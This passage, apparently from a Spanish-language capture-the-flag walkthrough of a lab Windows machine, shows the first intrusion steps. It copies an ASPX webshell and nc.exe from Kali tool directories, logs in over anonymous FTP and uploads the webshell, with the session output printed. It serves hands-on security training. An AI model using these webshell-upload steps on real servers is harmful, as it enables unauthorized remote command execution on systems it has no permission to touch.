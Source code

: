 <img src="/assets/images/devel/04-page2.png">
</p>

En esta ocasión mostraré dos maneras de realizar la intrusión a la máquina, pero antes de esto, vamos a ingresar a la carpeta `exploit`

```bash
cd ../exploit
``` 
## INTRUSION WEBSHELL                                                                           
Vamos a localizar una webshell de `aspx` y la utilidad `nc.exe` para poder obtener nuestra primera intrusión.

```bah
locate .aspx
cp /usr/share/davtest/backdoors/aspx_cmd.aspx console.aspx
locate nc.exe
cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

Nos conectamos nuevamente por `ftp` y cargamos la webshell que denominamos como `console.aspx`.

```bash
ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:bast1ant1c): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put console.aspx 
local: console.aspx remote: console.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1438 bytes sent in 0.00 secs (18.7861 MB/s)
```
